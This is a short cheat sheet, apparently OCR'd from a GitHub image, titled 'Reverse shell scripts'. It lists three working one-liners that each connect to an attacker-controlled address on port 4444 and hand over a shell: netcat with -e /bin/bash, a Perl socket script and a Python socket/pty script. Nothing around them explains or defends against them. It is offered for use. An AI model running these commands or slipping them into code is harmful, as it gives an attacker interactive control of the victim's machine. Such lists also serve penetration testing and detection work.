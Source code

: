 #Reverse shell scripts

## Using Netcat
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  

## Using Perl
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
